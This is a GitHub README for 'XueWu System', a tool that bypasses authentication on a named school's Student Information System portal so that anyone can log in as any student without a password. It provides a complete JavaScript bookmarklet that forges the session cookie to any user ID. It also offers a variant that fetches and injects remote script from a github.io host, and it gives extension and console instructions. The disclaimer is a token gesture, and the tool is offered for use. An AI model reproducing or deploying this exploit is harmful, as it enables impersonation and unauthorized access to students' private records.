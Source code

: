 # XueWu System

***Zhuang ShengLi Database Presented***

A system written in Javascript that allows users to log in into Student Information System with any identity without password.

## Running It

There are 3 ways to run the script

1. Running using `javascipt:` URL
   
   1. Copy the following URL:
      
      - Offline Edition
        
        ```javascript
        javascript:(function(){console.log("Hello from XueWu System Core Javascript. (C)opyright 2024 KCISHackers. All Rights reserved. Visit: https://www.github.com/KCISHacker/XueWuSystem for more info.");if(document.getElementById("tweaked")){alert('This page had already been tweaked! Do not run twice!');return;}function tweak(id){document.cookie="DSAI="+id+";path=/";fetch(window.location.origin+'/DSAI/Query/Form_ListDetention?strKeyWord1=').then(response=>response.json()).catch(error=>(function(){console.error(error);if(error.name=='SyntaxError'){alert(id+' seems not exist. Check your spelling.');return;}alert("Error while tweaking "+id+"! "+error);successed=false;}()));}function btn_onclick(){if(document.getElementById("UserId").value==''){alert('Username field cannot be empty!');return;}tweak(document.getElementById("UserId").value);window.location.href="/DSAI/Home";}document.getElementsByName('btn_s')[0].addEventListener("click",function(){btn_onclick();});document.getElementsByClassName("main_logout")[0].innerText="tweaked by 学武系统tweaker";document.getElementsByClassName("ui-input-text ui-body-inherit ui-corner-all ui-shadow-inset")[1].innerHTML="<div style=\"color:red\">This program is for learning reference only, rather than abusing, or you'll take the risk!</div>";document.getElementById("UserId").addEventListener("keyup",function(event){if(event.keyCode===13){event.preventDefault();btn_onclick();}});var mark=document.createElement('div');mark.id='tweaked';document.body.appendChild(mark);}())
        ```
      
      - Online Edition (Need to access to github.io, but shorter)
        
        ```javascript
        javascript:(function(){var s=document.createElement('script'),ss='https://kcishacker.github.io/res/XueWu.js';s.src=ss;document.body.appendChild(s);}())
        ```
   
   2. Visit this URL while you are in [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn). The Javascript should inject correctly. **If you are using Safari, skip this step.**
   
   3. You can save this URL as a bookmark and use it anytime.

2. Installing as a browser extension **(may not work for Safari or FireFox)**:
   
   1. Go to [Extension Setting](about://extensions) page in your brower .
   
   2. Enable `Developer Mode` (It should appear somewhere on the page).
   
   3. After enabling this options, you should see a `Load Unpackaged` button on the page.
   
   4. Click it and specify the path of the folder `Chrome Extension` contained in the Git repository.
   
   5. It is now installed on your brower. Do not move, rename, or delete the `Chrome Extension` folder after installation.

3. Running the script manually:
   
   1. Open the JavaScript file named "core.js" from the Git repository.
   2. The file contains comments explaining the purpose of each function.
   3. Try running the functions in the [Developer Tools](https://en.wikipedia.org/wiki/Web_development_tools) Console of your browser while on the [Student Information System Log In Page](https://portal.kcisec.com/China/Account/LogIn).

:) Enjoy

## License

MIT License

Copyright (c) 2024 KCISHackers

Permission is hereby granted, free of charge, to any person obtaining a copy of this software and associated documentation files (the "Software"), to deal in the Software without restriction, including without limitation the rights to use, copy, modify, merge, publish, distribute, sublicense, and/or sell copies of the Software, and to permit persons to whom the Software is furnished to do so, subject to the following conditions:

The above copyright notice and this permission notice shall be included in all copies or substantial portions of the Software.

THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.
